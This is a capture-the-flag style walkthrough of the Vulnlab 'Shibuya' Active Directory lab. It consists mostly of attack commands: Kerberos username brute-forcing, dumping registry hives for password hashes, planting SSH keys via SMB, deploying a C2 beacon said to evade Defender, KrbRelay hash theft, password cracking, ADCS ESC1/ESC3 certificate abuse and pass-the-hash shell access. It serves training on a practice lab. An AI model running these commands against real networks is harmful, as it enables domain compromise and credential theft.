Shibuya is a medium difficulty Windows machine on Vulnlab with two machines, made by Xct. It features pre-created machine accounts, SMB enumeration, kerberos relay attacks, and ADCS.

### Tools
---
- https://nmap.org/
- https://github.com/fortra/impacket
- https://github.com/Pennyw0rth/NetExec/
- https://github.com/ozelis/winrmexec
- https://github.com/SpecterOps/BloodHound
- https://github.com/ropnop/kerbrute
- https://github.com/ly4k/Certipy
- https://github.com/cube0x0/KrbRelay
- https://github.com/Adaptix-Framework/AdaptixC2

## Recon
---
```sh
AWSJPDC0522.SHIBUYA.VL / 10.10.69.67
PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
593/tcp   open  http-rpc-epmap
3268/tcp  open  globalcatLDAP
3389/tcp  open  ms-wbt-server
9389/tcp  open  adws
```

We began by performing an Nmap scan to identify open ports and services on the target machine, `AWSJPDC0522.SHIBUYA.VL`. The scan revealed several open ports related to common Windows services, and also ssh which is non-standard. It's also worth noting that LDAP ports 389 and 636 aren't visible to us.

We start by trying to enumerate shares with a null session, however we get access denied.
```sh
nxc smb AWSJPDC0522.SHIBUYA.VL -u '' -p '' --shares
```


Next we can try the `Guest` account, which is disabled and doesn't get us anywhere.
```sh
nxc smb AWSJPDC0522.SHIBUYA.VL -u 'Guest' -p '' --shares
```


With no other leads we can attempt to bruteforce usernames.
```sh
kerbrute userenum --dc AWSJPDC0522.SHIBUYA.VL -d SHIBUYA.VL /opt/SecLists/Usernames/xato-net-10-million-usernames.txt
```


After a few seconds we get:
```
2025/08/17 01:50:29 >  [+] VALID USERNAME:   purple@SHIBUYA.VL
2025/08/17 01:50:32 >  [+] VALID USERNAME:   red@SHIBUYA.VL
```

First we try passing the username as password:
```sh
nxc smb AWSJPDC0522.SHIBUYA.VL -u users.list -p users.list --no-bruteforce --continue-on-success
```


Knowing that these accounts aren't in a typical first.last or another common domain format, they might be machine accounts. Machine accounts can't auth with NTLM, so we need to use Kerberos.
```sh
nxc smb AWSJPDC0522.SHIBUYA.VL -u users.list -p users.list --no-bruteforce --continue-on-success -k
```


With access to the red account, we enumerate the SMB shares again, this time with Kerberos authentication. This revealed a non-standard `users` share and an `images$` share, which we couldn't access yet.
```sh
nxc smb AWSJPDC0522.SHIBUYA.VL -u red -p red -k --shares
```


The reason we're able to do this is because `red` and `purple` are pre-created computer accounts, later on we can verify by running the `pre2k` module in NetExec.
```sh
proxychains nxc ldap AWSJPDC0522.SHIBUYA.VL -u '_admin' -H $ADM_HASH --dns-tcp --dns-server 10.10.69.67  -M pre2k
```


## Gaining Access to the images$ Share
---
First we get a ticket and export it:
```sh
getTGT.py SHIBUYA.VL/red:red
```


Then Auth to SMB and check if anything juicy is accessible.
```sh
smbclient.py -k -no-pass SHIBUYA.VL/red@AWSJPDC0522.SHIBUYA.VL
```


Unfortunately we don't currently have permissions to access anything in the users share.

From nmap we know that ldap isn't available to us, but we can enumerate users with smb as well. This also shows us the user descriptions.
```sh
nxc smb AWSJPDC0522.SHIBUYA.VL -u red -p red -k --users
```


This output reveals a user, `svc_autojoin`, with a password-like string in their description field.

We test these credentials and successfully authenticate as `svc_autojoin`.
```sh
nxc smb AWSJPDC0522.SHIBUYA.VL -u svc_autojoin -p $AUTO_PASS
```


With these new credentials we're able to access the `images$` share. 
```sh
nxc smb AWSJPDC0522.SHIBUYA.VL -u svc_autojoin -p $AUTO_PASS --shares
```


We connect using `smbclient.py` and download three `.wim` files, which are Windows Imaging Format files.
```sh
smbclient.py SHIBUYA.VL/svc_autojoin:$AUTO_PASS@AWSJPDC0522.SHIBUYA.VL
```


```
# get AWSJPWK0222-01.wim
# get AWSJPWK0222-02.wim
# get AWSJPWK0222-03.wim
```

We can open .wim files or view their contents with 7z (7Zip). Examining the file contents shows that the 2nd wim file contains registry hives.
```sh
7z l AWSJPWK0222-02.wim
```




Extracting the files from `AWSJPWK0222-02.wim`.
```
7z x AWSJPWK0222-02.wim SAM
7z x AWSJPWK0222-02.wim SECURITY
7z x AWSJPWK0222-02.wim SYSTEM
```

We extract these hives and use Impacket's `secretsdump.py` to recover the stored password hashes.
```sh
secretsdump.py -sam SAM -security SECURITY -system SYSTEM local
```


The output reveals a cached logon hash for `Simon.Watson` and NTLM hashes for the local admin and an operator account. 

The admin hash doesn't work.
```sh
nxc smb AWSJPDC0522.SHIBUYA.VL -u administrator -H <snip>
```


The Operator hash doesn't work for the operator user, if there is one.
```sh
nxc smb AWSJPDC0522.SHIBUYA.VL -u operator -H $OP_HASH
```


But it does work for Simon.Watson, who's the user with cached logon information.
```sh
nxc smb AWSJPDC0522.SHIBUYA.VL -u Simon.Watson -H $OP_HASH
```


## Foothold
---
We can access `Simon.Watson`'s folder in the users share now.

Since SSH is open on port 22 we can get a shell on the machine by uploading our public key to `Simon.Watson`'s user folder.

We generate an SSH key pair, create a `.ssh` directory, and upload the generated public key as `authorized_keys`.
```sh
ssh-keygen
cp simon.pub authorized_keys
```

```sh
smbclient.py -hashes :$SIMON_HASH shibuya.vl/simon.watson@AWSJPDC0522.shibuya.vl
mkdir .ssh
put authorized_keys
```


Key in place we can connect with ssh.
```sh
ssh -i simon Simon.Watson@AWSJPDC0522.SHIBUYA.VL
```


We can get the first flag on `Simon.Watson`'s desktop.


Next I want to establish a beacon with Adaptix. First create a listener:



Then generate a payload:



We can upload the payload with `smbclient.py`, then execute and get a callback.







Currently Adaptix beacons evade Defender, so there's no need to use a loader or any fancy techniques.

Beacon established we can use execute-assembly to run SharpHound and enumerate the domain:
```sh
execute-assembly /home/trigger/Shibuya/SharpHound.exe --outputprefix shibuya -c All
```




## Kerberos Relaying
---
According to BloodHound `Nigel.Mills` has a session on the machine as well.


We can use `KrbRelay` to steal an ntlm hash from `Nigel.Mills`, but first we need a different logon type because this exploit depends on having an interactive session.

We can make a token for `svc_autojoin`, since we have their password from earlier, and specify logon type 9.
```sh
token make svc_autojoin <snip> SHIBUYA.VL 9
```


We can verify that we have an interactive session by using `quser`. Here it is without an interactive session:



And with a session:



Which shows that `Nigel.Mills` is in session 1.

Then, we can execute assembly and get the ntlm hash.
https://github.com/cube0x0/KrbRelay
```sh
execute-assembly /home/trigger/Tools/Compiled/KrbRelay.exe -ntlm -session 1 -clsid 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4
```


Remove the whitespaces from the hash(just a copypaste issue), then save the hash to a file and crack it with John the Ripper and rockyou.
```sh
john --wordlist=/opt/SecLists/rockyou.txt nigel.hash
```


## ADCS
---


We already know there's an ADCS server present from BloodHound, but can't use certipy to enumerate certs from our linux machine because of the lack of ldap. Instead we can reach it using socks from the beacon:
```sh
socks start 1081
```


Or we could use ssh dynamic ports:
```sh
ssh -D 1080 -N -i simon Simon.Watson@AWSJPDC0522.SHIBUYA.VL
```


Socks on we use Certipy with proxychains to identify vulnerable certificate templates on the domain, using `Nigel.Mills`'s credentials. We see that the `ShibuyaWeb` template has a few vulnerabilities, also notable is the minimum RSA key length is set to 4096.
```sh
proxychains certipy find -u 'Nigel.Mills'@SHIBUYA.VL -p $NIGEL_PASS -vulnerable
```




We're going to exploit the following two vulnerabilities that Certipy identified:
> ESC1: The ShibuyaWeb template allows an enrollee to supply a subject alternative name, which is a form of ESC1 vulnerability that enables privilege escalation.

> ESC3: The ShibuyaWeb template also has the Certificate Request Agent EKU set, which is an ESC3 vulnerability. This lets a user with a valid certificate request a new certificate on behalf of another user.

### ESC1:
---
https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc1-enrollee-supplied-subject-for-client-authentication

We request a new certificate using `Nigel.Mills`'s credentials and supply the User Principal Name (-upn) and Security Identifier (-sid) of the `_admin` user.
```sh
proxychains certipy req -u 'Nigel.Mills'@SHIBUYA.VL -p $NIGEL_PASS -ca 'shibuya-AWSJPDC0522-CA' -target AWSJPDC0522.SHIBUYA.VL -key-size 4096 -upn '_admin@SHIBUYA.VL' -sid 'S-1-5-21-87560095-894484815-3652015022-500' -template ShibuyaWeb
```


We then use this new `.pfx` certificate to authenticate and retrieve the NTLM hash for `_admin`.
```sh
proxychains certipy auth -pfx '_admin.pfx' -target AWSJPDC0522.SHIBUYA.VL
```


### ESC3:
---
https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc3-enrollment-agent-certificate-template

Alternatively, we can exploit the `ESC3` vulnerability. First, we request a certificate for `Nigel.Mills` using the `ShibuyaWeb` template.
```sh
proxychains certipy req -u 'Nigel.Mills'@SHIBUYA.VL -p $NIGEL_PASS -ca 'shibuya-AWSJPDC0522-CA' -target AWSJPDC0522.SHIBUYA.VL -key-size 4096 -template ShibuyaWeb
```


Next, we use the `nigel.mills.pfx` file to request a new certificate for the `_admin` user on their behalf.
```sh
proxychains certipy req -u 'Nigel.Mills'@SHIBUYA.VL -p $NIGEL_PASS -ca 'shibuya-AWSJPDC0522-CA' -target AWSJPDC0522.SHIBUYA.VL -key-size 4096 -pfx 'nigel.mills.pfx' -template User -on-behalf-of '_admin'
```


We then authenticate with the new `_admin.pfx` certificate to get the user's hash.
```sh
proxychains certipy auth -pfx '_admin.pfx' -dc-ip 10.10.69.109
```


With the `_admin` NTLM hash, we can use `winrmexec.py` and proxychains to get a shell and complete the machine.
```sh
proxychains winrmexec.py -hashes :$ADM_HASH  SHIBUYA.VL/'_admin'@AWSJPDC0522.SHIBUYA.VL
```

